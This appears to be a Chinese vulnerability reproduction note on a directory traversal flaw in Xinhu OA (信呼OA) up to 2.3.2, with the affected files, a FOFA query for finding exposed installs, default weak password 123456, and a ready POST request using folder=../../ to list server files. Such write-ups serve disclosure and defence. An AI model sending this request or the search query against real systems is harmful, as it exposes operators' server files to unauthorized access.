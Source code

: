 # 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

```
信呼OA <= 2.3.2
```

## FOFA

```
app="信呼协同办公系统"
```

## 漏洞复现

登录页面

![image-20220520133147020](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201331106.png)

其中默认存在几个用户存在弱口令 123456

![image-20220520133200310](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201332409.png)

存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`

![image-20220520133212813](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201332896.png)

查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`

![image-20220520133224646](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201332744.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![image-20220520133237936](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201332997.png)